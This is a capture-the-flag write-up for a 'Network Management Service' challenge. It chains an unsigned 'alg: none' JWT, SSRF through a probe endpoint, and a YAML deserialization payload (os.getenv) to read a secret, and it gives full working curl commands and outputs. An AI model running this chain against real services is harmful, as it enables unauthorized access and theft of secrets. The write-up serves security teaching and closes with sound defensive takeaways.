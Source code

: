 # Network Management Service CTF Writeup

## Challenge Information

- **Title:** Network Management Service
- **Description:** A network management service available for authenticated admin. The flag is in env: `FLAG`
- **Service:** HTTP API with JWT authentication
- **URL:** http://68.219.177.187:8012

## Reconnaissance

### Initial Discovery

The service exposes two main endpoints:

- `/api/probe` - Requires authentication via Bearer token
- `/internal/config` - Restricted to "internal access only"

### API Endpoints Analysis

```bash
# Root endpoint
curl http://68.219.177.187:8012/
# Response: {"message":"Welcome to Network Management Service. Admin access required for advanced features."}

# OpenAPI specification
curl http://68.219.177.187:8012/openapi.json
```

From the OpenAPI spec, we identified:

- `/api/probe` accepts `ProbeRequest` with `target`, `method`, and `data` fields
- `/internal/config` accepts `YamlConfig` with a `config` string
- JWT Bearer authentication required for `/api/probe`

## Vulnerability Analysis

### 1. JWT Authentication Bypass

The service was vulnerable to JWT algorithm confusion attack:

```bash
# Successful authentication bypass
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/", "method":"GET"}'
```

**Vulnerability:** The JWT implementation accepted tokens with `alg: none`, allowing unsigned tokens to be treated as valid.

### 2. Server-Side Request Forgery (SSRF)

The `/api/probe` endpoint allowed making HTTP requests to any target, including internal services:

```bash
# SSRF to internal endpoint
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"GET"}'
```

**Vulnerability:** No restrictions on target URLs, allowing access to internal endpoints.

### 3. YAML Deserialization Attack

The `/internal/config` endpoint processed YAML configuration unsafely:

```yaml
!!python/object/apply:os.getenv [FLAG]
```

**Vulnerability:** The service used unsafe YAML parsing (`yaml.load()` instead of `yaml.safe_load()`), enabling arbitrary code execution.

## Exploitation Chain

### Step 1: Bypass Authentication

First, let's analyze the JWT token structure:

```bash
# Decode JWT header
echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0' | base64 -d
# Output: {"typ":"JWT","alg":"none"}

# Decode JWT payload
echo 'eyJyb2xlIjoiYWRtaW4ifQ' | base64 -d
# Output: {"role":"admin"}

# Create unsigned JWT with alg: none
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."
```

Test the authentication bypass:

```bash
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/", "method":"GET"}'
# Response: {"result":"{\"message\":\"Welcome to Network Management Service. Admin access required for advanced features.\"}"}
```

### Step 2: Leverage SSRF for Internal Access

First, let's test accessing the internal config endpoint:

```bash
# Try GET method first (fails)
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"GET"}'
# Response: {"result":"{\"detail\":\"Method Not Allowed\"}"}

# Try POST method without data (shows required fields)
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST"}'
# Response: {"result":"{\"detail\":[{\"type\":\"missing\",\"loc\":[\"body\"],\"msg\":\"Field required\",\"input\":null}]}"}
```

### Step 3: Execute YAML Deserialization Payload

Now we can execute the YAML deserialization attack to retrieve the flag:

```bash
# Set the JWT token variable
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."

# Execute the final payload
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $JWT_TOKEN" \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST", "data": {"config":"!!python/object/apply:os.getenv [FLAG]"}}'
```

**Success!** The response contains the flag:
```json
{"result":"{\"message\":\"Config applied\",\"loaded\":\"SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}\"}"}
```

The final payload chain:

1. **JWT Bypass:** `alg: none` token with admin role
2. **SSRF:** Access `internal/config` via localhost  
3. **RCE:** YAML deserialization to execute `os.getenv("FLAG")`

## Flag

```
SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}
```

## Complete Exploit Command

```bash
# Final working exploit
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."

curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $JWT_TOKEN" \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST", "data": {"config":"!!python/object/apply:os.getenv [FLAG]"}}'
```

**Response:**
```json
{"result":"{\"message\":\"Config applied\",\"loaded\":\"SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}\"}"}
```

## Key Takeaways

1. **JWT Security:** Always validate JWT signatures and reject tokens with `alg: none`
2. **SSRF Prevention:** Implement strict allowlists for outbound requests
3. **YAML Security:** Use `yaml.safe_load()` instead of `yaml.load()` to prevent deserialization attacks
4. **Defense in Depth:** Multiple vulnerabilities were chained together - fixing any one would have prevented the exploit

## Timeline

1. Discovered JWT authentication bypass using `alg: none`
2. Identified SSRF vulnerability in `/api/probe` endpoint
3. Found unsafe YAML deserialization in `/internal/config`
4. Chained vulnerabilities to achieve remote code execution
5. Retrieved flag from environment variables
